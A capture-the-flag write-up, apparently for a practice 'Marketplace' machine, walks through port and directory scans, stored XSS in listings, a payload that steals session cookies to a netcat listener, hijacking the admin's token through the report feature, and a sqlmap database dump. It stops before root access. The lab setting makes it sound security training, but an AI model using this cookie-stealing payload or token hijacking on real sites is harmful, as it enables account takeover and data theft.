 Difficult: Medium
------------------------------------------
Note: The sysadmin of The Marketplace, Michael, has given you access to an internal server of his, so you can pentest the marketplace platform he and his team has been working on. 
He said it still has a few bugs he and his team need to iron out.
Can you take advantage of this and will you be able to gain root access on his server?
------------------------------------------

Reconnaissance:
+ Scan NMAP:
```bash
	nmap -sV -vv -A -p- <IP>
	PORT      STATE SERVICE REASON         VERSION
	22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol
	 2.0)
	| ssh-hostkey: 
	|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDLj5F//uf40JILlSfWp95GsOiuwSGSKLgbFmUQOACKAdzVcGOteVr3
	lFn7vBsp6xWM5iss8APYi9WqKpPQxQLr2jNBybW6qrNfpUMVH2lLcUHkiHkFBpEoTP9m/6P9bUDCe39aEhllZOCUgEtmLp
	dKl7OA3tVjhthrNHNPW+LVfkwlBgxGqnRWxlY6XtlsYEKfS1B+wODrcVwUxOHthDps/JMDUvkQUfgf/jpy99+twbOI1OZb
	CYGJFtV6dZoRqsp1Y4BpM3VjSrrvV0IzYThRdssrSUgOnYrVOZl8MrjMFAxOaFbTF2bYGAS/T68/JxVxktbpGN/1iOrq3L
	RhxbF1
	|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHyTgq5FoUG3grC5KNPA
	uPWDfDbnaq1XPRc8j5/VkmZVpcGuZaAjJibb9RVHDlbiAfVxO2KYoOUHrpIRzKhjHEE=
	|   256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIA2ol/CJc6HIWgvu6KQ7lZ6WWgNsTk29bPKgkhCvG2Ar
	80/tcp    open  http    syn-ack ttl 62 nginx 1.19.2
	| http-methods: 
	|_  Supported Methods: POST OPTIONS
	|_http-title: The Marketplace
	|_http-server-header: nginx/1.19.2
	| http-robots.txt: 1 disallowed entry 
	|_/admin
	32768/tcp open  http    syn-ack ttl 62 Node.js (Express middleware)
	| http-methods: 
	|_  Supported Methods: HEAD OPTIONS
	|_http-title: The Marketplace

```

+ Scan Gobuster:
```bash
	gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirb/common.txt -xtxt -t64
	===============================================================
	/admin                (Status: 403) [Size: 392]
	/Admin                (Status: 403) [Size: 392]
	/ADMIN                (Status: 403) [Size: 392]
	/images               (Status: 301) [Size: 179] [--> /images/]
	/login                (Status: 200) [Size: 857]
	/Login                (Status: 200) [Size: 857]
	/messages             (Status: 302) [Size: 28] [--> /login]
	/new                  (Status: 302) [Size: 28] [--> /login]
	/robots.txt           (Status: 200) [Size: 31]
	/robots.txt           (Status: 200) [Size: 31]
	/signup               (Status: 200) [Size: 667]
	/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
	Progress: 9228 / 9230 (99.98%)
	===============================================================
	Finished
	===============================================================

```

+ First, we will sign up to create a new account.
+ Create new USER "username:user1 & password:1"
+ Log in /Login with the credential which is created.

![alt text](image.png)

+ After Login successful, we can look around the web page and we find some new page like /messages and /new.
+ Check each page /new we have the page 'Add new listing' with blank fields 'Title' and 'Description'.
+ In the situation, we can try some tag html like script, h1,...

![alt text](image-2.png)

![alt text](image-1.png)

--> Bingo! The pop up message appear. We found the security vulnerability XSS
(Cross-Site Scripting).

EXPLOIT XSS:

+ Back to the home page we see the page list which we created. Go inside the page /item, we have 2 features: 

![alt text](image-3.png)

+ Feature 1: Contact with the author, we will send message to current user and that is user1.
+ Feature 2: Report to admins and the message report will be sent to admin.

--> We think some ideas that we can inject XSS vuln to retrive some sensitive information about the Admin.

+ View page source:
![alt text](image-4.png)

--> We know that we can exploit XSS base cookie or sensitive access token with "document.cookie" and "document.location"

+ Open "Developer Tools" or use Burpsuite:

![alt text](image-5.png)

--> We recive the token with value encoded. Decode the value we know that is the information user1.

+ We can manipulate cookie token by XSS to grant admin and access /admin.
+ Back to home page and we will exploit code.
+ We use "Data grabber for XSS"
+ Link: "https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#data-grabber-for-xss"

+ Now we create the new list and create the payload which will send it to a controlled page:
```bash
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
```

![alt text](image-6.png)

+ Use netcat to open the port listen:
```bash
nc -lvkp <port>
# -l: listen mode, for inbound connects
# -v: verbose mode
# -k: set keepalive option on socket
# -p: local port number
# In the situation, we have to use -k to keep the connection when we back to home page. 
```

+ Look at the netcat:

![alt text](image-7.png)

+ We got the recieve about the token cookie that is token user1.
+ Idea in here that is we can manipulate the feature "Report to admin" in the /item to take the token ADMIN.
+ When we report to admin, netcat will capture the request to admin and recive back the token ADMIN.

![alt text](image-8.png)

![alt text](image-9.png)

--> Check netcat again and now we have the token for new user:

![alt text](image-10.png)

+ Decode the token:
```bash
{
    "userId": 2,
    "username": "michael",
    "admin": true,
    "iat": 1728993550
}
```
--> User michael with admin permission.
+ We will insert new token replace the token user1 and access again in the page /admin.

![alt text](image-11.png)

items,messages,users
table users: id, isAdministrator,password,username

![alt text](image-12.png)

```bash
sqlmap -r request.txt --dbms=mysql --dump
# -r uses the intercepted request you saved earlier
# --dbms tells SQLMap what type of database management system it is
# --dump attempts to outputs the entire database
```



